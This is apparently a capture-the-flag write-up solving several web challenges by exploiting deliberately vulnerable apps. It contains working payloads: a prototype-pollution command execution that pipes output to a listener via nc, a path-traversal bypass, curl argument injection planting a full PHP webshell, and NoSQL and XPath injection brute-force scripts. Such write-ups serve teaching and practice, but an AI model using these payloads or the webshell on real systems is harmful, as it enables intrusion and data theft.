

# Cyber Apocalypse CTF

## Web

### BlitzProp

For this challenge, a dockerfile is provided in order to replicate the web app locally. After firing up the container we can access the web page and see how it looks:


Telling from the name of the bands, this seems to have something to do with either prototype pollution, AST injection, or some node-related vulnerability. If we try to submit any name that's not on the list we get a message saying "Please provide the name of an existing song", otherwise, we get "Hello guest, thank you for letting us know!"


The communication between the server and the client happens asynchronously through a `POST` request carrying JSON data. With this in mind, let's take a look at the code responsible for this check in the server:

```
router.post('/api/submit', (req, res) => {
  const { song } = unflatten(req.body);
  if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
    return res.json({
      'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
    });
  } else {
    return res.json({
      'response': 'Please provide us with the name of an existing song.'
    });
  }
});
```

Right away we can see there's something weird going on. An object which seems to be the user input gets passed to `unflatten` and, if the input was correct, a template is rendered with a hardcoded value. All of this seems a little bit unnecessary, why call `unflatten` if the input is not expected to have that many nested fields anyway? Also, why is a template rendered with a hardcoded value? Why not just put the string `guest` into the string right away?

After checking the `package.json` file and some googling, we find that the version of the `flat` package beign used (`flat` is the name of the package that provides the `unflatten` function) is `5.0.0`, which is [vulnerable to prototype pollution](https://snyk.io/vuln/SNYK-JS-FLAT-596927). With that in mind we now have to think about how we are going to exploit this. As it turns out, there's [a very nice blog out there](https://blog.p6.is/AST-Injection/#Pug) about how AST injection works, and how we can exploit this in the case of `pug` (which is the template engine being used here).

Now all we need to do is "borrow" the exploit from that post and adjust the payload to meet our needs. This is the code I used:
```
import requests

TARGET_URL = [the one provided by HTB]

res = requests.post(TARGET_URL + '/api/submit', json = {
    "song": {"name": "Not Polluting with the boys"},
    "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync(`ls | nc [myServer] [myPort]`)"
    }
})
```

Now you may notice that I didn't use `nc -e sh` or something like that, that's because I wasn't sure if the `nc` version on the remote host would allow that, in any case I could just adjust the payload to execute any command I wanted. Another thing to keep in mind is that we need to provide a valid song name so that the `pug` part will actually get executed. After listing the files in the directory, I could see that the flag file was named `flage1tqb` ('cause why not?). All I had to do next is to actually retrieve tha flag.

```
$ nc -lvp [myPort]
Connection from [remoteInstance]
flage1tqb
index.js
node_modules
package.json
routes
static
views
yarn.lock
$ # Modified the payload to include cat flage1tqb
$ nc -lvp [myPort]
Connection from [remoteInstance]
CHTB{p0llute_with_styl3}
```

That's it!

### Inspector gadget

For this challenge, all we have is an ip address and a port. If we try to access it through a web browser we can see a nice looking animation made with `threejs`:


In the console, we can see the following message printed out right away: `us3full_1nf0rm4tion}`. By looking through the source code for the webpage (specifically, through the script), we can find the following snippet:

```
function animate(){
  jetStreamR.Jet();  
  jetStreamL.Jet();
  robot.blinkLoop();
  robot.idleAnimation();
  dustMatrix.Speed();
    // controls.update();
}

function loop(){
  renderer.render(scene, camera);
  requestAnimationFrame(loop);
  animate();
}
```

But if we try to uncomment the `controls.update()` line, the script crashes. So at this point I figured that I may have to fix the code so that uncommenting the line that updates the controls doesn't crash the page. And so I did, it involved changing the version of some of the scripts being imported and tinkering a bit with the code. All of this got me a nice looking animation which I could rotate and move with my mouse, but it didn't get me anything as far as the flag was concerned. So I resorted to looking through all of the sources in an attempt to see if I could find anything. And that was, in fact, the correct solution. These are the snippets that were scattered throughout the sources:

`HTB{`
`1nsp3ction_`
`c4n_r3ve4l_`
`us3full_1nf0rm4tion}`

And that was the flag!

`HTB{1nsp3ction_c4n_r3ve4l_us3full_1nf0rm4tion}`

### MiniSTRyplace

For this challenge, we get once again a downloadable part, as well as an ip and a port. The application is written in php, and it consists of two static pages: `en.php` and `qw.php`. The user can either select one of these two pages, in which case that page will be included. If the user doesn't specify which page they want to include, a random one is chose by the server. This is the relevant snippet of code (in `index.php`):

```
<?php
  $lang = ['en.php', 'qw.php'];
  include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
?>
```

This looks like a file inclusion vulnerability, there's no way that call to `str_replace` can prevent all of the possible strings from including `../` somewhere whithin them. And indeed it doesn't! That check will delete any occurrence of `../` but it will do it only once. What we can do to take advantage of this is give it the string `....//`, there's only once instnace of `../` in there, and after removing it the string is left as `../`. This way we can set `lang` to be equal to `....//....//....//....//flag` (I didn't count the number of `../`s needed, just added a bunch to make sure it gets all the way up to the root of the filesystem) and that way we can get the flag.

`CHTB{b4d_4li3n_pr0gr4m1ng}`

### CaaS

Same deal as before, we get a docker image with a php application, and an ip/port pair. The page looks simple enough:



We can specify a URL and, after a quick check done in the front end that makes sure our URL valid, a request containing the URL is sent to the server (which for some reason implements a MVC pattern and looks considerably more complex than it needs to be). These are the relevant pieces of code:

```
[main.js]

var input = document.getElementById('command');
var output = document.getElementById("console-output");

document.getElementById("command").addEventListener('keydown', (e) => {
  if (e.keyCode === 13) {

    let host = input.value;

    try {
      new URL(host);
    } catch {
      return output.innerHTML = "Illegal Characters Detected";
    }

    output.innerHTML = '';

    fetch('/api/curl', {
      method: 'POST',
      body: `ip=${host}`,
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      }
    })
    .then(resp => resp.json())
    .then(data => {
      output.innerHTML = data.message;
    });

    input.value = '';
  }
});
```

```
[CurlController.php]
public function execute($router) // This function handles POST requests to /api/curl
{
    $url = $_POST['ip'];

    if (isset($url)) {
        $command = new CommandModel($url);
        return json_encode([ 'message' => $command->exec() ]);
    }
}
```

```
[CommandModel.php]
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```

We can see that whatever we send to the server will concatenated to the string `curl -sL` and executed. The front end only allows us to send a valid URL, but we can bypass that by crafting the request by hand. Another important consideration is that whatever input we give to the server, will be passed through `escapeshellcmd`, which makes it pretty much impossible to achieve RCE by just adding special characters. However, when looking at the documentation for this function, we can find this warning:

```
escapeshellcmd() should be used on the whole command string, and it still allows the attacker to pass arbitrary number of arguments. For escaping a single argument escapeshellarg() should be used instead.
```

This looks promising, because it tells us that this function is being misused. Our URL should clearly be escaped using `escapeshellarg`, as it represents a single argument to `curl`. This tells us we should start looking for some argument to `curl` that could be of use in our case, and a more or less obvious choice is `-o`. With `-o` we can feed the server a malicous URL containing a webshell written in php, and save it on the server itself for later use. And this is exactly what I did, this is the code that will be downloaded by curl:

```
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8" />
    <title>Webshell</title>
  </head>

  <body>
    <?php
    if ($_SERVER['REQUEST_METHOD'] == 'POST') {
      echo(exec($_POST['cmd']));
    }
    ?>
    
    <form action="/" method="POST">
      <input type="text" value="" name="cmd" />
      <input type="submit" value="Submit" />
    </form>
  </body>
</html>
```

It's far from being the most beautiful or feature-rich webshell out there, but it gets the job done. All we need to do is to host this file on some server and make a POST request to `/api/curl` containing the payload `[myserver]/webshell.php -o index.php`. We can now reload the page and be greeted by our webshell, which we can use to read the flag.

`CHTB{f1le_r3trieval_4s_a_s3rv1ce}`

> I should add that when I first approached the challenge I thought the vulnerability might be somewhere in the router logic. There was a lot of code in the application that seemed like it was hiding bugs somewhere, but it turns out, this was not the case.

### Wild Goose Hunt

This time we get a nodejs application as well as the ip and port for the remote instance. The application itself is simple, it just consists of a single webpage with a login form, and an endpoint to make login requests to:


Telling from the dokcer configuration in the local instance, the password for the `admin` user seems to be the flag. All of this data is stored on a mongo database. Let's look at the controller for the login endpoint:

```
router.post('/api/login', (req, res) => {
  let { username, password } = req.body;
  
  if (username && password) {
    const user = { 
      username,
      password
    }
    return User.find(user)
    .then((user) => {
      if (user.length == 1) {
        return res.json({logged: 1, message: `Login Successful, welcome back ${user[0].username}.` });
      } else {
        return res.json({logged: 0, message: 'Login Failed'});
      }
    })
    .catch(() => res.json({ message: 'Something went wrong'}));
  }
  return res.json({ message: 'Invalid username or password'});
});
```

And this is the user model:

```
let User = new Schema({
  username: {
    type: String
  },
  password: {
    type: String
  }
}, {
  collection: 'users'
});
```

I should mention that the description for the challenge said something along the lines of `The aliens are using outdated human technology`, so I did a few quick searches to see if there were any CVEs for the technologies at play here. Turns out there were a few important ones: the version of `mongoose` being used here is `5.10.10`, which is vulnerable to [prototype pollution](https://snyk.io/vuln/SNYK-JS-MONGOOSE-1086688), `pug` version `2.0.4` is also being used, which is vulnerable to [some kind of AST injection](https://snyk.io/vuln/SNYK-JS-PUG-1071616).

There's also one more thing we should take into consideration, and it's the fact that in order to trigger any kind of vulnerability in the backend, we need to have the ability to send JSON data to it. If we take a look at how the request is being crafted in the frontend, we can see the data is being transmitted in `x-www-form-urlencoded` form.
```
const login    = document.getElementById('login');
const response = document.getElementById('response');

login.addEventListener('submit', e => {
  e.preventDefault();
  
  fetch('/api/login', {
    method: 'POST',
    body: new URLSearchParams(new FormData(e.target))
  })
  .then(resp => resp.json())
  .then(data => {
    if (data.logged) {
      login.remove();
      response.innerHTML = data.message;
    } else {
      response.innerHTML = data.message;
    }
  });
});
```

This is a problem, because we can't send an arbitrary JSON object this way (or at least, I haven't managed to find any way of doing so). Luckily, when re-reading the `index.js` file in the backend code, we were able to find the following code:
```
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ 
  extended: true 
}));
```

This means that we can send JSON data to the server instead and it won't complain about it. Now that we can send an arbitrarily complex body to the server, we can move on with the actual exploit. I tried to put a `__proto__` field in the JSON being sent to the server but it looks like it gets sanitized, so prototype pollution doesn't seem to be a valid option. Apart from that, we can't control the `pretty` parameter mentioned in the other vulnerability I found, so that CVE is useless as well.

It looks now like we are going to need to do something a bit more clever to get the password. If we look again at how the mongo query is being made, we could wonder what would happen if we started sending mongo directives in the body of the request. More concretely, if we send `{username: {$ne: ""}, password: {$ne: ""}}` to the server, we can see that the server answers back `{logged: 1, message: "Login Successful, welcome back admin."}`. This means that we can insert any mongo function in those fields and the server will happily execute them. This is known as NoSQL Injection.

But how can we take advantage of this? Our goal is not just to bypass the authentication process, but to retrieve the password. Well, we can use regular expressions to see if a partial password matches the one in the database and, if it does, we can start adding characters to it until we hit the next correct partial password. This is a tedious process, so we might as well automate it:

> Before automating the exploit and executing it, it is important to check that we are not violating the terms of service of HTB, and the rules of the CTF. After reading through these documents, I didn't find any rule against this kind of attack. Moreover, this strategy is the intended solution to one of the challenges on HTB, so I assumed it was safed to go on with it.

```
import requests
import string


validChars = string.ascii_lowercase + '0123456789_}'

payload = {
    'username': {'$ne': 'asd'},
    'password': {'$regex': 'CHTB{'}
}

while(True):
    res = None
    for i in range(len(validChars)):
        payload['password']['$regex'] += validChars[i]
        r = requests.post('[remoteInstance]/api/login', json=payload)
        res = r.json()
        if res['logged'] == 1:
            res = validChars[i]
            break
        else:
            payload['password']['$regex'] = payload['password']['$regex'][:-1]
    if res == None:
        print("Couldn't find suitable character. Try adding letters to the alphabet")
    else:
        print(payload['password']['$regex'])
        if res == '}':
            break
```

After a while, we get the correct password:

`CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}`

### E.Tree

For this challenge we only get an xml file and an ip address.

The xml file looks like this:

```
<military>
    <district id="confidential">
    
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
        </staff>
...
[a bunch of other staff and district elements]
...
         <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
            <selfDestructCode>CHTB{f4k3_fl4g</selfDestructCode>
        </staff>
...
[another bunch of other staff and district elements]
...
</military>
```

The webpage consists of a textbox in which you can put a username and the server just checked if it is a valid name in the xml file. It also contains a leaderboard with some valid usernames.

> Unfortunately, I didn't take a screenshot of that page, and the chal didn't provide a local copy of it, so I can't really show it to you.

Now, this challenge had me puzzled for a while, until I started inserting random characters into the textbox and dicovered that it seemed to crash when I entered a single quote in it. I checked for the response in my browser's network tools and managed to see this:

```
lxml.etree.XPathEvalError

XPathEvalError: Invalid predicate

...
[a bunch of text]
...

File "/app/app.py", line 42, in search

@app.route("/api/search", methods=["POST"])

def search():
    name = request.json.get("search", "")
    query = "/military/district/staff[name='{}']".format(name)

    if tree.xpath(query):
        return {"success": 1, "message": "This millitary staff member exists."}

    return {"failure": 1, "message": "This millitary staff member doesn't exist."}

app.run("0.0.0.0", port=1337, debug=True)
```

Ok, so the app is running in debug mode and we can see some of the code in the backend. We can also see that the xml file is being searchoed with xpath. This gives us the possibility to perform xpath injection. We can send a name like this: `asd' or contains(selfDestructCode, 'CHTB{') or name='asd`, so that the final xpath being used will look like this `/military/district/staff[name='asd' or contains(selfDestructCode, 'CHTB{') or name='asd']`. This way we will look for a staff member named `asd` (which of course doesn't exist), or for a staff member with a `selfDestructCode` containing `CHTB{`. Dependeing on whether the server returns a JSON object with the field `success` or `failure`, we can tell if our partial flag did match a part of the real one.

From here, we can continue as in the previous chal, we add characters to this string until we hit a dead end. However, in this case the flag will be split across different `staff` elements, so after exhausting all the valid combinations of characters beginning with `CHTB{`, we need to do something else.

This is the code for the first part of the exploit:

```
import string
import requests

alphabet = string.ascii_lowercase + '0123456789_!.,#@$;:-' + string.ascii_uppercase

flag = "CHTB{"

while True:
    res = None
    for letter in alphabet:
        searchString = "asd' or contains(selfDestructCode, '" + flag + letter + "') or name='asd"
        response = requests.post('[remoteInstance]/api/search', json={'search': searchString})
        if 'success' in response.json():
            res = letter
            break
    if res == None:
        print('No more letter could be added to the first part of the flag')
        break
    else:
        flag = flag + res
        print(flag)
```

And this gives us the string `CHTB{Th3_3xTr4_l3v3l_`. In order to find this I had to use a bigger alphabet than in the previous challenge, so it took a little bit longer. Now we can repeat the same exploit but instead of using the prefix `CHTB{` we can use the suffix `}` and add characters in the opposite direction, like so:

```
import string
import requests

alphabet = string.ascii_lowercase + '0123456789_!.,#@$;:-' + string.ascii_uppercase

flag = "}"

while True:
    res = None
    for letter in alphabet:
        searchString = "asd' or contains(selfDestructCode, '" + letter + flag + "') or name='asd"
        response = requests.post('[remoteInstance]/api/search', json={'search': searchString})
        if 'success' in response.json():
            res = letter
            break
    if res == None:
        print('No more letter could be added to the first part of the flag')
        break
    else:
        flag = res + flag
        print(flag)
```

And this gives us the string `_c0nTr0l}`. Now it seems like we're missing some parts of the flag, but if we don't use suffixes and prefixes then the string will just match parts of the flag we've already got (for instance, if we try the same method without specifying any affixes, the first character to math could be `c`, then `0` and so on until we get `c0nTr0l}`, which we already knew was part of the flag). However, we can do a bit better than this, right now we're just looking for tags named `selfDestructCode` which _contain_ some text, but we could look for the ones that start with that same text, and that way we can avoid matching parts of the flag which we already know. This can be achieved with a slight modification to the script:

```
import string
import requests

alphabet = string.ascii_lowercase + '0123456789_!.,#@$;:-' + string.ascii_uppercase

flag = ""

while True:
    res = None
    for letter in alphabet:
        searchString = "asd' or starts-witch(selfDestructCode, '" + flag + letter + "') or name='asd"
        response = requests.post('[remoteInstance]/api/search', json={'search': searchString})
        if 'success' in response.json():
            res = letter
            break
    if res == None:
        print('No more letter could be added to the first part of the flag')
        break
    else:
        flag = flag + res
        print(flag)
```

Now we get the remaining bit: `4Cc3s$`.

And that way we get the whole flag: `CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}`
